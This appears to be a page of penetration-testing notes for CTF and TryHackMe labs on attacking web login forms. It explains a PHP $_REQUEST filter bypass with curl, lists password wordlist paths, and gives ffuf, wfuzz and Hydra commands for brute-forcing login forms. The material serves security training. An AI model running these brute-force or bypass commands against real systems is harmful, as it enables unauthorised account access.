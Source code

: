 # Bruteforce forms, and other vulnerabilities

<div class="row row-cols-md-2"><div>

There are two kinds of forms: **GET forms**, in which the parameters of the form are stored within the URL, and anyone opening the URL, will see the form filled with the same input. For instance, a search engine such as Google has a parameter `q` (query) in which the search I made `(hello world)` was stored in.

```
https://www.google.com/search?q=hello+world
https://www.google.com/search?q=hello%20world
```

Search are URL-encoded as a URL is a long suite of characters with no spaces, for instance, space would be either `%20`, or `+`.
</div><div>

Then, we have **POST forms**. They are mostly used for logins/... Once the user submit data, then its encoded, and sent to the server. Even if we have the same URL, the page will be empty for us.

```
https://example.com/login.php
```

The common point between the two are that the data transferred is looking like this: `username=toto&password=toto`, and in both, it's URL-encoded.
</div></div>

> **Note**: BurpSuite can be used too, see the Intruder tab.<br>

<hr class="sep-both">

## Logic Flaw

[![authenticationbypass](../../../_badges/thmp/authenticationbypass.svg)](https://tryhackme.com/room/authenticationbypass)

<div class="row row-cols-md-2"><div>

In PHP, there is a variable `$_POST` to fetch the input fields send to the server using POST, and `$_GET` for input fields send using GET. There is another prefilled variable: `$_REQUEST` which contains both values in `$_GET`, and values in `$_POST`. 

If a value is both in `$_POST`, AND `$_GET`, then ONLY the value in `$_POST` will be kept. This is worth mentioning, because

* a developer might use `$_REQUEST` for a GET form, instead of `$_GET`. In such case, we may be able to inject data using POST, so that even if the data send using GET is filtered, we may bypass these filters.

```bash
$ curl 'URL?param=value' -d 'param=not_filtered'
# the dev filter $_GET: filterXXX($_GET)
# but in $_REQUEST['param'], there will be
# our value 'not_filtered'
```
</div><div>

* it's possible that a developer is using a GET form, then a POST form. In such scenario, the (lazy?) developer may use `$_REQUEST` to fetch values. If the dev checked the data at step1, but not at step2, we may be able to bypass the check in step1.

```bash
$ curl 'URL/step1?param=verified'
# the dev ensure param is verified
# verify_or_reject_param($_GET)
# now, the dev may "trust" param to be valid
$ curl 'URL/step2?param=verified' -d 'xxx=yyy&param=unverified'
# the dev filter $_POST: filterXXX($_POST)
# the dev uses $_REQUEST['param']
# but, it's our unverified value that is used
```
</div></div>

<hr class="sep-both">

## Wordlists

<div class="row row-cols-md-2"><div>

* package wordlist

```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/dirb/others/best1050.txt
/usr/share/wordlists/dirb/others/best110.txt
/usr/share/wordlists/dirb/others/best15.txt
```

</div><div>

* package seclists 📌

```
$ ls /usr/share/seclists/Passwords/
2020-200_most_used_passwords.txt
darkc0de.txt
darkweb2017-top10000.txt
$ ls /usr/share/seclists/Passwords/Common-Credentials
10k-most-common.txt
10-million-password-list-top-1000000.txt
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```
</div></div>

> CTF are usually using `/usr/share/wordlists/rockyou.txt`, and a manually created list of usernames if needed.

<hr class="sep-both">

## Bruteforce using ffuf

[See fuzzing/ffuf for more information](../fuzz/index.md#ffuf---fuzz-faster-u-fool)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ ffuf -w wordlist -u URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ ffuf -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php
$ ffuf -w wordlist1:W1,wordlist2:W2 -X POST -d "username=W1&password=W2" -u URL
```
</div></div>

<hr class="sep-both">

## Bruteforce using wfuzz

[See fuzzing/wfuzz for more information](../fuzz/index.md#wfuzz---web-application-fuzzer)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ wfuzz -w wordlist URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ wfuzz -w wordlist -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sep-both">

## Bruteforce authentication forms using Hydra

<div class="row row-cols-md-2"><div>

Hydra is mostly used to bruteforce services, but it can also be used with authentication forms.

```bash
$ hydra -l toto -P wordlist URL http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```

<p class="mt-3">The request that we will bruteforce is something like this</p>

```none
username=toto&password=xxx
```
</div><div>

This command will

* Attack the form located at `URL/login.php` <small>(the `/login.php`)</small>
* Set the field with the name "username" with "toto"
* Set the field with the name "password" with every entry in the wordlist, on by one
* Consider comme failures (`-F`) any web page that returns the word "incorrect"

You should check the [bruteforce services](/cyber/exploitation/services/bruteforce.md) page to learn more about Hydra.
</div></div>